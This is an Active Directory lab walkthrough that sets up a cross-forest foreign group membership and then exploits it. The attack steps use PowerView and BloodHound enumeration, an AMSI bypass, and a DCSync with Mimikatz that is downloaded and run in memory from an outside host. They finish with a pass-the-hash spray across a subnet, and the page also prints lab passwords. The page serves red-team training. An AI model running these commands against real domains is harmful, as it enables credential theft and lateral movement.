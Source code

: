 # Foreign user

## Configuring

1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" administration tool.

![](<../../.gitbook/assets/image (17).png>)

3\. Open the "Users" directory and right click it, then select "New" and then "Users".

4\. Create a new user with the name `secure_admin` and the password `rFKbUJrDu$sz*36ffKr6`.

![](<../../.gitbook/assets/image (22).png>)

5\. Make sure "Password never expires" is checked and "User must change password at next logon" is unchecked when creating the user.

6\. to `DC03` with the `Administrator` user and the password `Welcome01!`.

7\. Open the "Active Directory Users and Computers" administration tool.

8\. Open the "Users" directory and right click it, then select "New" and then "Group".

9\. Make a new group with the name `Local admin data` and select group scope "Domain Local".

![](<../../.gitbook/assets/image (77) (1) (1).png>)

10\. Right click the group and select "Properties". Click on the "Members" tab and click on "Add"

11\. Click on "Locations" and select bank.local.

![](<../../.gitbook/assets/image (59) (1).png>)

12\. Enter the username secure\_admin and click "Check Names" and then click "OK".

![](<../../.gitbook/assets/image (65).png>)

13\. Click "Apply" and then "OK".

14\. To make the group local admin to the `DATA01` server there are two options

* Login to the machine and use the net command to add the group to the local administrators group.
* Deploy a GPO to make the group local admin on the machine.

15\. We will go with the first step since its just easier for the lab setup, but normally IT would deploy it with GPO. So login with the username Administrator and password Welcome01! to DATA01 and execute the following command:

```
net localgroup administrators "local admin data" /add
```

![](<../../.gitbook/assets/image (64).png>)

## Attacking

### How it works

If there is a trust between two forests, it is possible to add a user of domain A to a group in domain B. If for example this group gives local admin privileges to a system in forest B then after taking over that user it is possible to gain access to domain B using that account. Depending on the trust flow configured between the domains(one way or two way trust), they can both add other users or only one domain can add users.

Meaning that if you take over domain A you can easily access domain B by enumerating the groups which have a foreign user from domain A. I see this often used for having one admin account to manage both domains for example.

### Tools

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

This attack is executing from the perspective of already gaining Enterprise Admin privileges within the `bank.local` admin.

1. To easily execute the attack login on `DC01` with the user `Administrator` and the password `Welcome01!`.
2. Start PowerShell and load an amsi and PowerView into memory:

![](<../../.gitbook/assets/image (57).png>)

3\. With the PowerView cmdlet `Get-DomainForeigGroupMember` we can query the target domain for users in groups that aren't from their domain.

```
Get-DomainForeignGroupMember -Domain secure.local
```

![](<../../.gitbook/assets/image (44).png>)

4\. The output shows us that there is a foreign user in the `Local admin data` group and that the member is `S-1-5-21-320929719-844265543-1524670925-1602`.  To get the user name we can use the `ConvertFrom-SID` cmdlet from PowerView:

```
ConvertFrom-SID S-1-5-21-320929719-844265543-1524670925-1602
```

![](<../../.gitbook/assets/image (78) (1).png>)

5\. The user `bank\secure_admin` from `bank.local` is member of `local admin data` in `secure.local`. We can also see this in bloodhound after collecting the data for both domains and loading it into the BloodHound GUI.

```
Invoke-BloodHound -Collectionmethod all -Domain secure.local
Invoke-BloodHound -Collectionmethod all -Domain bank.local
```

After clicking on "Users with Foreign Domain Group Membership" and selecting `Secure.local` under the "Dangerous Rights" section in the "Analysis" tab we see:

![](<../../.gitbook/assets/image (75).png>)

6\. Since we are already domain admin we could simply reset the password for the `secure_admin` user. But this isn't OPSEC safe, so we can execute a dcsync to grab its NTLM hash and then use it to spray against the other domain computers to check if the user has access to any machine. To execute the DCSync load MimiKatz into memory and use the following command:

```
iex (iwr http://192.168.248.2:8090/Invoke-Mimikatz.ps1 -UseBasicParsing)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:bank\secure_admin /domain:bank.local"'
```

![](<../../.gitbook/assets/image (16).png>)

7\. The next step would be to spray this hash against all systems of the secure.local domain. But its just easier to spray it against the whole subnet with crackmapexec. To do this we use the following command:

```
cme smb 10.0.0.0/24 -u secure_admin -H a0f6b4d3c6a9da1204520ccd72e54597 -d bank.local
```

![](<../../.gitbook/assets/image (39).png>)

8\. The user `secure_admin` from `bank.local` is local admin to the `DATA01` machine from `secure.local`.

## Defending

### Recommendations

I would recommend to not add users from other domains in privileged groups if you don't FULLY trust the other domain to be secure. But this is a risk based decision to make.

### Detection



## References

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}
